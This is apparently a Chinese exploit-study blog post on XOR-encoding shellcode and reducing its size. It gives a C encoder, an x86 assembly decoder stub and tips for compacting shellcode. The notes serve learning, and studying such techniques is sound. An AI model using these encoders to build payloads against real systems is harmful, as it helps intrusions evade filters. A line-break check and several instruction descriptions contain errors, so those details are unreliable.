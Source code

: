 ```yaml
---
title: 漏洞学习笔记-004-ShellCode编码
description: ShellCode编码和减少体积
slug: exploit-004
date: 2020-10-20 9:20:00+0800
categories:
    - Exploit
tags:
    - Windows
    - Exploit
---
```


> [点击此处下载本文附可执行程序，shellcode文件](/assets/ExpStd/ExpStd04.zip)

本文来源：[Moeomu的博客](/p/slug: exploit-003/)

## 异或编码

### 注意事项

- 在选取编码字节时，不可与已有字节相同，否则会出现0
- 可以使用多个不同编码字节对不同区域编码，但会增加复杂度
- 可以对shellcode进行多轮编码

### 实现代码(ExpStd0401)

```CPP
void encoder(char* input, unsigned char key, int display_flag)
{
    int i = 0, len = 0;
    FILE* fp;
    unsigned char * output;
    len = strlen(input);
    output = (unsigned char*)malloc(len + 1);
    if(!output)
    {
        printf("memory error!\n");
        exit(0);
    }

    // encode shellcode
    for(i = 0; i < len; i++)
    {
        output[i] = input[i] ^ key;
    }
    if(!(fp=fopen("encode.txt", "w+")))
    {
        printf("output file create error!");
        exit(0);
    }
    fprintf(fp, "\"");
    for(i = 0; i< len; i++)
    {
        fprintf(fp, "\\x%0.2x", output[i]);
        if((i + 1 % 16 == 0))
        {
            fprintf(fp, "\"\n\"");
        }
    }
    fprintf(fp, "\";");
    fclose(fp);
    printf("dump the encoded shellcode to encode.txt OK!\n");
    if(display_flag)
    {
        for(i = 0; i < len; i++)
        {
            printf("%0.2x ", output[i]);
            if((i + 1) % 16 == 0)
            {
                printf("\n");
            }
        }
    }
    free(output);
}
```

### 解码代码(ExpStd0402)

- 解码器与shellcode联合执行
- 默认EAX在shellcode开始时对准shellcode起始位置
- shellcode最后一个字节为0x90

```x86asm
void main()
{
    __asm
    {
        add eax, 0x14            ;越过decoder记录shellcode起始地址
        xor ecx, ecx
    decode_loop:
        mov bl, [eax + ecx]
        xor bl, 0x44             ;用0x44作为key
        mov [eax + ecx], bl
        inc ecx
        cmp bl, 0x90             ;末尾放一个0x90作为结束符
        jne decode_loop
    }
}
```

## ShellCode减少体积

### 方法

- 挑选短指令
  - `xchg eax, reg`   ;交换`eax`和其它寄存器的值
  - `lodsb`           ;`esi`指向的一个`dword`装入`eax`，并且增加`esi`
  - `lodsd`           ;把`esi`指向的一个`byte`装入`al`，并增加`esi`
  - `stosd`           ;将`eax`的内容复制到`edi`的内存地址中，每复制四个字节，`edi`就加`0x4`，`ecx`为大小
  - `stosb`           ;将`eax`的内容复制到`edi`的内存地址中，每复制一个字节，`edi`就加`0x4`，`ecx`为大小
  - `pushad/popad`    ;从栈中存储/恢复所有寄存器的值
  - `cdq`             ;用`edx`把`eax`扩展成四字，在`eax<0x80000000`时可用作`mov edx, 0`
- 复合指令，合并使用指令
- API参数压栈前将栈空间一片区域置为0，压栈时只要压入非0参数即可
- 代码当数据用，数据当代码用
- 栈顶之上数据若有用，抬高栈顶保护它以便以后使用
- 调用API时有些寄存器总是被保存在栈中，但是大多数函数运行时不会使用EBP，因此可以用EBP保存数据
- HASH算法存储API

### 选择适当的HASH算法

- 8bit最多表示256个不同的字符，不可避免会有碰撞，但是如果所需函数位于碰撞的第一个，那么也可以使用
- 即碰撞是可以部分容忍的

